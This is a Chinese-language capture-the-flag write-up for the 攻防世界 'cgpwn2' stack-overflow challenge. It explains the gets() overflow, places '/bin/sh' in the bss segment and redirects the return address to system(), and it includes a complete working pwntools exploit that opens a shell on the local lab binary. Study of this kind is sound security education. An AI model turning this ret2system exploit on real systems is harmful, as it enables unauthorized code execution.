



# 攻防世界: cgpwn2

## **[目标]**
栈溢出

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**

- 检查保护机制，没有canary，可以溢出。



- gets函数不限制输入的长度，这里可以溢出。

- 利用前面所说的方法所处溢出点的位置






- 溢出点是42个字节

- 在找关键字符串的时候没有发现 bin/sh 。所以我们需要将bin/sh写到我们可以访问的地址中去。我们可以在输入name的时候把 bin/sh写进去。name位于bss段，bss段保存全局变量，加载地址不会因为地址随机化的开启而有所变化。

- 将 system 的地址写到 hello 函数的返回地址中，同时将之前 bin/sh 的地址也写到栈中，作为system函数的参数。构造如下payload：

`payload = 42*'a' + p32(sys_addr) + p32(bss_addr)`

完整exp如下：

```python
from pwn import *

elf = ELF("./cgpwn2")
p = process("./cgpwn2")

bss_addr =  0x0804A080

p.recv()
p.sendline("/bin/sh\x00")

cnt = 42

sys_addr = elf.symbols['system']

p.recv()
rop = ''
rop += cnt * 'a'
rop += p32(sys_addr)
rop += 'a'*4
rop += p32(bss_addr)

p.sendline(rop)
p.interactive()
```

## **[参考阅读]**

[一步一步学习rop](https://segmentfault.com/a/1190000005888964)

[gdb的简单用法](https://blog.csdn.net/ll352071639/article/details/42304619)

[gdb查看内存命令](https://blog.csdn.net/yasi_xi/article/details/9263955)